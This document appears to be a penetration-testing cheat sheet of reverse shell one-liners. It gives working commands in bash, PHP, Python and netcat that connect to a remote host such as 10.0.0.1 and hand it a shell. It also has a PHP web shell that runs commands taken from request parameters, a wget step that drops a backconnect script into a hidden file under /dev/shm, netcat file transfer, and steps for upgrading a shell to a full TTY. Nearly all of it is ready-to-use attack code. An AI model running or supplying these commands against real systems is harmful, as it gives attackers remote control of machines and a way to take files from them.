 # Reverse Shell

## Bash

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'
```

## PHP

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```
<?php system($_GET['cmd']); ?>
echo system($_REQUEST['cmd']); #Add the php tags
/file.php?cmd=whoami
```

## Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

### python-pty-shells

https://github.com/infodox/python-pty-shells

Edit tcp_pty_backconnect.py

```
On Victim
wget IP:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py

On Attacker
python tcp_pty_shell_handler.py -b IP:PORT

On Victim
python /dev/shm/.rev.py
```

## Netcat

```
nc -e /bin/sh 10.0.3.4 9001

Listen with

nc -lvnp 9001
```

```
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

### Downloading files with netcat

Open receiving connection

```
nc -lvnp 1234 > file.zip

Send the file over

nc -w 4 <your_hackthebox_ip> 1234 < file_name.zip
```

## MSFvenom

## Improving Shells

```
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

/usr/bin/script -qc /bin/bash /dev/null

echo os.system('/bin/bash')

/bin/sh -i
```

Once bash is running in the PTY, background the shell with Ctrl-Z

While the shell is in the background, now examine the current terminal and STTY 

```
echo $TERM
stty -a
stty raw -echo
fg
```

Set the shell, terminal type and stty size to match our current Kali window (from the info gathered above)

```
reset
$ export SHELL=bash
$ export TERM=xterm256-color
$ stty rows 38 columns 116
```